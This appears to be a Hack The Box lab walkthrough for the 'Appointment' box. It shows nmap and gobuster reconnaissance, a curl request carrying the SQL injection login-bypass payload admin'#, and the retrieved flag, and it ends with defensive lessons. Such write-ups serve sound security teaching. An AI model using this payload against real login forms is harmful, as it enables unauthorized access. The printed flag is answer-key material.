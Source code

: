 ```yaml
---
title: "Exploiting HTB’s ‘Appointment’ Box with SQL Injection"
published: false
tags: [hackthebox, sqlinjection, pentesting, tutorial]
---
```


## Introduction

In this tutorial, we’ll exploit an SQL Injection vulnerability in Hack The Box’s **Appointment** web app to bypass authentication and retrieve the flag.

You’ll learn to:
- Discover targets with `nmap`  
- (Optionally) brute-force directories with `gobuster`  
- Craft an SQLi payload to bypass a login form  
- Automate the entire exploit with a Bash script  

## Prerequisites

- Kali Linux (or any distro with `nmap`, `gobuster`, `curl`)  
- Active HTB VPN connection  

---

## 1. Scan for Open Services

Identify the web server and version:

```bash
nmap -sC -sV 10.129.99.212 -oN screenshots/nmap.png
```

<details>
<summary>Output snippet</summary>

```text
80/tcp open  http    Apache httpd 2.4.38 (Debian)
```
</details>

---

## 2. (Optional) Directory Brute-Force

Use Gobuster to check for hidden paths:

```bash
gobuster dir -u http://10.129.99.212 -w /usr/share/wordlists/dirb/common.txt -o screenshots/gobuster.png
```

No sensitive directories were found.

---

## 3. SQL Injection Exploitation

Target the login form with this payload:

- **Username:** `admin'#`  
- **Password:** anything  

This payload closes the username clause and comments out the rest of the SQL query, bypassing the password check.

```bash
curl -s -X POST http://10.129.99.212/login      -d "username=admin'#&password=dummy" -L
```

You should see a page indicating you are logged in as **admin**, revealing the flag.

```
Flag: e3d0796d002a446c0e622226f42e9672
```

---

## 4. Automation Script

Reproduce the exploit with `scripts/login-sqli.sh`:

```bash
bash scripts/login-sqli.sh 10.129.99.212
```

---

## 5. Lessons Learned

- Unsanitized inputs on login forms lead to trivial SQLi bypass.  
- Always use parameterized queries or stored procedures.  
- Implement input validation and Web Application Firewalls.

---

🔗 **Full write-up & code:** https://github.com/keyfive5/obsidiansignal-htb-appointment  
